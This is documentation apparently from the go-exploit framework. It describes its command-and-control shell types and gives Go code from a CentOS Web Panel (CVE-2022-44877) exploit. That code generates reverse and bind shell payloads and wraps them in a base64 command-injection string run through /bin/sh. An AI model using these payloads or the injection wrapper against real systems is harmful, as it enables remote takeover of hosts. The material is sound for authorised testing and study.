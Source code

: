 In `go-exploit`, the command and control (C2) functionality provides a basic command-line interface to the victim machine. At the moment, there are three supported C2 types:

1. *SimpleShellClient* - An unencrypted terminal via a bind shell.
2. *SimpleShellServer* - An unencrypted terminal via a reverse shell.
3. *SSLShellServer* - An encrypted terminal via a reverse shell.
4. *HTTPServeFile* - An unencrypted HTTP server that serves a user configured file (not a traditional c2)

These C2 types allow the attacker to interact with the compromised machine through a command-line interface. However, they don't currently offer advanced features. The C2 interface in `go-exploit` is designed to be flexible, making it suitable for future development and expansion.

To specify the supported C2 types for an exploit, you need to define them in the exploit's `main` function. Here's an example:

```go
func main() {
	supportedC2 := []c2.Impl{
		c2.SSLShellServer,
		c2.SimpleShellServer,
		c2.SimpleShellClient,
	}
	conf := config.New(config.CodeExecution, supportedC2, "CentOS Web Panel", "CVE-2022-44877", 2031)
	sploit := CWPInjection{}
	exploit.RunProgram(sploit, conf)
}
```

In the example above, the exploit supports all three C2 types, with `c2.SSLShellServer` set as the default. During the exploitation phase, the exploit needs to check the user-requested C2 type to determine the appropriate actions. Here's an example of how this can be done:

```go
func (sploit CWPInjection) RunExploit(conf *config.Config) bool {
	generated, ok := generatePayload(conf)
	if !ok {
		return false
	}
	// Rest of the exploit logic
}

func generatePayload(conf *config.Config) (string, bool) {
	generated := ""

	switch conf.C2Type {
	case c2.SSLShellServer:
		output.PrintfStatus("Sending an SSL reverse shell payload for port %s:%d", conf.Lhost, conf.Lport)
		generated = payload.ReverseShellMknodOpenSSL(conf.Lhost, conf.Lport)
	case c2.SimpleShellServer:
		output.PrintfStatus("Sending a reverse shell payload for port %s:%d", conf.Lhost, conf.Lport)
		generated = payload.ReverseShellBash(conf.Lhost, conf.Lport)
	case c2.SimpleShellClient:
		output.PrintfStatus("Sending a bind shell for port %d", conf.Bport)
		generated = payload.BindShellMkfifoNetcat(conf.Bport)
	default:
		output.PrintError("Invalid payload")
		return "", false
	}

	payload64 := b64.StdEncoding.EncodeToString([]byte(generated))
	generated = "`echo${IFS}" + payload64 + "|base64${IFS}-d|/bin/sh`"

	return generated, true
}
```

In the `RunExploit` function, `generatePayload` is called to generate the appropriate payload based on the selected C2 type. The `generatePayload` function uses a switch statement to determine the payload generation logic for each C2 type. It generates the payload and returns it as a string, along with a boolean flag indicating whether the generation was successful.

Note that the payload generation logic in the example is specific to the `CWPInjection` exploit and may vary for different exploits and C2 types.
